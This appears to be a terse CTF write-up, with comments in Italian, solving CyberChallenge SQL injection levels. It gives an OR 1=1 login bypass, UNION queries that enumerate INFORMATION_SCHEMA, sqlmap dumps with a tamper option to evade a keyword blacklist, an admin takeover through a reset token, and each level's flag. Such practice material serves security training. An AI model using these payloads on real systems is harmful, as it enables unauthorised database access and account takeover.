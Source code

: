 # SQL Injection lvl 1
```mysql
poop' OR 1=1-- '  // CCIT{1s_ths_h0w_l0g1ns_w0rk}
```


# SQL Injection lvl 2`
```mysql
1' UNION SELECT 1, 2, 3, 4, 5, table_name FROM INFORMATION_SCHEMA.tables -- '     -- Tabella 'real_data'.
1' UNION SELECT 1, 2, 3, 4, 5, column_name FROM INFORMATION_SCHEMA.columns -- '   -- Colonna 'FLAG'.
1' UNION SELECT 1, 2, 3, 4, 5, FLAG FROM real_data -- '`                          -- CCIT{Uni0ns_4re_so_tr1vi4l}.
```


# SQL Injection lvl 3
```bash
sqlmap -r inj_lvl_3.txt --dbs                                    -- Trovo il database bliddb.
sqlmap -r inj_lvl_3.txt -D blinddb --tables                      -- Trovo la tabella 'secret'.
sqlmap -r inj_lvl_3.txt -D blinddb -T secret --columns           -- Trovo la colonna 'asecret'.
sqlmap -r inj_lvl_3.txt -D blinddb -T secret -C asecret --dump   -- CCIT{A_bl1ndy_fl4g}.
```


# SQL Injection lvl 4
```bash
sqlmap -r inj_lvl_4.txt --dbs                               -- Trovo il database timedb.
sqlmap -r inj_lvl_4.txt -D timedb --tables                  -- Trovo la tabella 'flags'.
sqlmap -r inj_lvl_4.txt -D timedb -T flags --columns        -- Trovo la colonna 'flag'.
sqlmap -r inj_lvl_4.txt -D timedb -T flags -C flag --dump   -- CCIT{Dont_trus7_tim3}.
```

# Filtered
```bash
sqlmap -u http://149.202.200.158:5111/post.php?id=* --dbs                                                          -- Trovo il db 'filtered'.
sqlmap -u http://149.202.200.158:5111/post.php?id=* -D --tables                                                    -- Trovo la tabella 'flaggy'.
sqlmap -u http://149.202.200.158:5111/post.php?id=#1 --tamper=symboliclogical --hex -D filtered -T flaggy --dump   -- CCIT{Bl4ckl1sts_Ar3_s0_c00l}
```
Se si usa un altro tamper la funzione is_hackerz lo blocca, dato che non ammette le keyword 'UNION' e 'AND', cosi bypassiamo questa cosa usando '&&' anziche 'AND'.


# Yet Another Blog
```bash
sqlmap -u http://yetanotherblog.challs.cyberchallenge.it/post.php?id=* --dbs                                -- Trovo il database 'yet_another_blog'.
sqlmap -u http://yetanotherblog.challs.cyberchallenge.it/post.php?id=* -D yet_another_blog --tables         -- Trovo la tabella 'users'.
sqlmap -u http://yetanotherblog.challs.cyberchallenge.it/post.php?id=* -D yet_another_blog -T users --dump
```
Prendo il 'reset token' e cambio la password di 'admin', effetto il login e ricevo la falg. -> CCIT{Hash_y0ur_r3s3t_t0ken_t00}.
